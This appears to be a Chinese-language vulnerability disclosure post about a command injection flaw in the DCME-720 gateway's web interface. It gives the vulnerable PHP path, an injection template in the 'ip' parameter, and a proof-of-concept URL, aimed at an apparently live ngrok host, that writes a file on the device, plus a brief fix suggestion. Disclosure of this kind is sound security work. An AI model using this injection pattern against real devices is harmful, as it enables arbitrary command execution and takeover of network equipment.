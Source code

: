 ```yaml
---
title: DCME-720
tags: 二进制
categories: 物联网
toc_number: true
date: 2025/8/4 11:20:53 
---
```


# 漏洞概述

DCME-720多核出口网关采用多核高性能处理器，结合专用ASIC交换芯片，针对大容量用户数、多流量、多业务种类的业务需求而推出的新一代高性能互联网出口网关。

 

其web管理后台存在命令执行漏洞，攻击者可以利用该系列漏洞在设备上执行任意代码以及控制设备。

固件下载地址：https://www.dcnetworks.com.cn/ruanjian.html?title=dcme-720

 

 

# 代码审计

代码位置在设备系统中/usr/local/www/function/audit/newstatistics/ip_block.php

 

![](img/1.png)

/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;[拼接命令];

 

 

 

 

 

# 验证

登录web管理后台，访问漏洞所在url：

http://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php

![](img/2.png)

构造payload：

?action=save&switch=1&ip=;echo 123 > 1.txt;

创建txt文件并写入数字

 

poc如下：
 https://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;echo%20123%20%3E%201.txt;

执行(显示修改失败但已命令执行成功)

![](img/3.png)

访问1.txt文件，发现创建并且写入成功

![](img/4.png)

 

 

# 修复建议

修改web后端php代码，对相关参数进行控制或过滤

 